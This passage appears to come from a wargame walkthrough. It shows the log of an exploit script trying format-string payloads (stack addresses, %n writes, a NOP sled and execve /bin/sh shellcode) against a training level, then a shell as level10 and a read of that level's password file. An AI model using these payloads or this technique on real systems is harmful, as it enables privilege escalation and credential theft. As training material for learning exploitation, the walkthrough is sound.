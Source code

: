 ```
sh: -c: line 1: syntax error: unexpected end of file
[+] Trying buf '\xfc\xff\xbfAAAA!\xfc\xff\xbfAAAA"\xfc\xff\xbfAAAA#\xfc\xff\xbf%08x%08x%72x%n%132x%n%263x%n%192x%n\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x903\xd21\xc0Ph//shh/bin\x89\xe3PS\x89\xe1\xb0\x0b\xcd\x80'
sh: -c: line 0: unexpected EOF while looking for matching `"'
sh: -c: line 1: syntax error: unexpected end of file
[+] Trying buf '\x1c\xfc\xff\xbfAAAA\x1d\xfc\xff\xbfAAAA\x1e\xfc\xff\xbfAAAA\x1f\xfc\xff\xbf%08x%08x%68x%n%136x%n%263x%n%192x%n\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x903\xd21\xc0Ph//shh/bin\x89\xe3PS\x89\xe1\xb0\x0b\xcd\x80'
sh-4.2$ whoami
level10
sh-4.2$ cat /home/level10/.pass
[Password for level10]
sh-4.2$ 
```

You can spend the time to make a cleaner if you wish, but if you use the solve.py script you might need to modify it a bit to make it work for you.
